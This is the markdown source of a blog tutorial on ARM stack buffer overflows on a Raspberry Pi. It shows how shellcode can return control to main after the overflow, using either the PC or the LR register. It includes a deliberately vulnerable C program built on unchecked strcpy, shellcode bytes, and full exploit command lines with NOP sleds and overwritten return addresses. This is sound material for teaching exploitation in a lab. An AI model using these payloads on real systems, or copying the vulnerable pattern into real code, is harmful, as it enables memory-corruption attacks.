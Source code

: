 ```yaml
---
layout: single
title: "ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing"
header:
  image: "https://live.staticflickr.com/65535/49799517733_05b4a81f72_h.jpg"
  teaser: "https://live.staticflickr.com/65535/49799517733_05b4a81f72_h.jpg"
categories:
  - Security
tags:
  - Exploitation
  - Tutorial
  - ARM
  - Buffer Overflow
  - Raspberry Pi
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


In the previous post we have seen how to exploit using simple stack-based buffer overflow. 

[ARM Exploitation with Raspberry Pi: Basic Stack Overflow](https://shantoroy.com/security/ARM-exploitation-raspberry-pi-stack-overflow/)

However, in that post, we exploited the stack using a shellcode and later the program crashed. What if we executed some basic instructions and then return back to the main program as if nothing happened?

In this post, we will learn how to return back to the main program without crashing (avoid segmentation fault) even after we are overflowing the buffer.

Here, we will use the same C program that we used before.

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```

## Debugging
The first thing we need to know is the original return address. We can simply find the return address by disassembling the main program.

```
gef➤  disass main
Dump of assembler code for function main:
   0x000104f4 <+0>:		push	{r11, lr}
   0x000104f8 <+4>:		add	r11, sp, #4
   0x000104fc <+8>:		sub	sp, sp, #8
   0x00010500 <+12>:	str	r0, [r11, #-8]
   0x00010504 <+16>:	str	r1, [r11, #-12]
   0x00010508 <+20>:	ldr	r3, [r11, #-12]
   0x0001050c <+24>:	add	r3, r3, #4
   0x00010510 <+28>:	ldr	r3, [r3]
   0x00010514 <+32>:	mov	r0, r3
   0x00010518 <+36>:	bl	0x104b4 <vulnerable>
   0x0001051c <+40>:	mov	r3, #0
   0x00010520 <+44>:	mov	r0, r3
   0x00010524 <+48>:	sub	sp, r11, #4
   0x00010528 <+52>:	pop	{r11, pc}
End of assembler dump.
```

Here, we see, after the main functions calls **`vulnerable`** at address `0x00010518`, it returns back to the main at **`0x0001051c`**. 

So, after performing the `strcpy` in the `vulnerable` function, if we can return back to the original address, we can avoid the segmentation fault.

**Note**: usually, after overflowing the buffer and overwriting the original return address with the one points at NOP inside the same buffer, the program crashes as it no longer contains the original address.

Now, here, we will discuss two different ways to return back to the original program.
1. Return Using Program Counter
2. Return Using Linking Register

Here, the payload will look like as follows:
```
payload = NOP + shellcode + original return address 
		+ padding + overwritten return address pointing NOP 
```

## Return Using Program Counter
Here, we can simply load the return address in the `Program Counter` and the PC will point back to the main program.


### Assembly Code
Here is the instruction set that loads the address in PC.
```bash
.globl _start
_start:
	ADD R11, SP, #12
	LDR R1, [PC, #4]
	SUB PC, R1, #0x01000000

# as testf.s -o testf.o && ld -N testf.o -o testf
```
Point to be noted, we have the return address as **`0x0001051c`**, which have a NULL byte. So, we cannot simply use the instruction `LDR PC, [PC, #4]`. To remove it, first we load the address without null byte in register `R1` and then we subtract whatever we added to remove the NULL byte.

In ARM, the PC by default points to the instruction position by 8 Bytes from the current instruction. So, if we use `PC, #4`, that means we will have to use 4 Bytes of padding before we put the address in `Little Endian` format.

Using the first instruction, we fixed the frame address as it changes by 12 Bytes when it executes our shellcode. It may vary depending on the system you use.


### Shell Code
Now, we will generate the shellcode of the binary file as follows.
```bash
pi@raspberry$ ./hexstring.sh testf
"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2"
```

Note that, the code of the script named **`hexstring.sh`** is available in the first post of our exploitation tutorial series.

See post: [ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)

### Debugging
Let's first disassemble the vulnerable function
```
gef➤  disassemble vulnerable
Dump of assembler code for function vulnerable:
   0x000104b4 <+0>:		push	{r11, lr}
   0x000104b8 <+4>:		add	r11, sp, #4
   0x000104bc <+8>:		sub	sp, sp, #112	; 0x70
   0x000104c0 <+12>:	str	r0, [r11, #-112]	; 0xffffff90
   0x000104c4 <+16>:	sub	r3, r11, #104	; 0x68
   0x000104c8 <+20>:	mov	r1, r3
   0x000104cc <+24>:	ldr	r0, [pc, #28]	; 0x104f0 <vulnerable+60>
   0x000104d0 <+28>:	bl	0x10354 <printf@plt>
   0x000104d4 <+32>:	sub	r3, r11, #104	; 0x68
   0x000104d8 <+36>:	ldr	r1, [r11, #-112]	; 0xffffff90
   0x000104dc <+40>:	mov	r0, r3
   0x000104e0 <+44>:	bl	0x10360 <strcpy@plt>
   0x000104e4 <+48>:	nop			; (mov r0, r0)
   0x000104e8 <+52>:	sub	sp, r11, #4
   0x000104ec <+56>:	pop	{r11, pc}
   0x000104f0 <+60>:			; <UNDEFINED> instruction: 0x000105b8
End of assembler dump.
```
Now, let's take the breakpoint at the last instruction that returns back to the main function.
```
gef➤  b *0x000104ec
Breakpoint 1 at 0x104ec
```
Now, let's exploit using the following payload:
```
gef➤ run $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2" + "AAAA"+ "\x1c\x05\x01\x01" + "JUNK"+ "\xd8\xf3\xff\x7e"')
```
Now, we can check the register contents and step by step instruction execution using the **`stepi`** command.

### Execution in Terminal
If succeed using the debugger, we can now test in the terminal. 

```bash
pi@raspberry$ ./buf $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\x10\x9f\xe5\x01\xf4\x41\xe2" + "AAAA"+ "\x1c\x05\x01\x01" + "JUNK"+ "\x6c\xf4\xff\x7e"')
```
One thing to remember, the address of the buffer may change outside gdb. So, first check the address printed while running the program.

## Return Using Linking Register
As `LR` contains the return address, we can also load the original address again in the LR and then branch (BX) to it. Here, follow the similar steps we discussed above.
 
### Assembly Instruction
```
.globl _start
_start:
	ADD R11, SP, #12
	LDR LR, [PC, #4]
	SUB LR, LR, #0x01000000
	BX LR

# as testa.s -o testa.o && ld -N testa.o -o testa
```

### Shellcode
```
"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"
```

### Debugging
```
gef> run $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"+ "\x1c\x05\x01\x01" + "JUNK"+ "\xd8\xf3\xff\x7e"')
```

### Execution in Terminal
```
./buf $(python -c 'print "\x01\x10\xa0\xe1"*20+"\x0c\xb0\x8d\xe2\x04\xe0\x9f\xe5\x01\xe4\x4e\xe2\x1e\xff\x2f\xe1"+ "\x1c\x05\x01\x01" + "JUNK"+ "\x7c\xf4\xff\x7e"')
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIxNDM4ODcxOTEsMTAxMzE4MTg3OCwtNz
c4NjQ5Mzc0LC0xNDY5MTI3MjM5LDIwNDQwMDc3OTUsMTg5MzA3
NzM4NCwxMDY0NTgzNDEzLDI5MzE3MjUxLDk2MzQyNzc0NCwxOD
k1Njc4ODU0LDEyMjUwNTQ2MDFdfQ==
-->